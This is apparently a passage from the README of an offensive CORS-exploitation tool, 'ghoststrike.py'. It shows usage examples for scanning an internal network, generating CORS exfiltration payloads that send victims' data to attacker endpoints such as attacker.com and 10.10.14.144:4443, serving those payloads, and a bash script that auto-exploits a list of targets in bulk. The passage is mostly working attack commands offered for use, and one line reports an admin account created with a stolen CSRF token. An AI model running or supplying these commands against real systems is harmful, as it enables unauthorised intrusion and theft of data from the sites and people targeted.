 **Result:** Admin account created with extracted CSRF token

### Example 3: Internal Network Discovery

**Target:** Public-facing app with internal service access

```bash
# Interactive network scanner
python3 ghoststrike.py --interactive

# Select: 8 (Network Scanner)
# Enter: 192.168.1.1/24
# Port: 80

# Discovers: 192.168.1.50, 192.168.1.100, 192.168.1.150

# Exploit discovered internal services
python3 ghoststrike.py --generate cors-wildcard \
  -t http://192.168.1.50/admin/api \
  -e https://10.10.14.144:4443/log \
  --server --ssl --port 4443
```

---

## Advanced Usage

### Custom Payload Templates

Save generated payload and modify:

```bash
# Generate and save
python3 ghoststrike.py --generate cors-exfil \
  -t https://target.com/api \
  -e https://attacker.com/log \
  -o custom_exploit.html

# Edit custom_exploit.html
# Add custom parsing logic

# Serve modified payload
python3 ghoststrike.py --server --ssl --port 4443
# Paste custom payload when prompted
```

### Batch Scanning

```bash
#!/bin/bash
# scan_targets.sh

TARGETS_FILE="targets.txt"
EXFIL_URL="https://10.10.14.144:4443/log"

while IFS= read -r target; do
  echo "[*] Scanning: $target"
  
  python3 ghoststrike.py --scan -u "$target" \
    --auto-exploit -e "$EXFIL_URL" \
    -o "exploit_$(echo $target | md5sum | cut -d' ' -f1).html" \
    2>&1 | tee "scan_$(echo $target | md5sum | cut -d' ' -f1).log"
    
done < "$TARGETS_FILE"

echo "[*] Scans complete. Starting server..."
```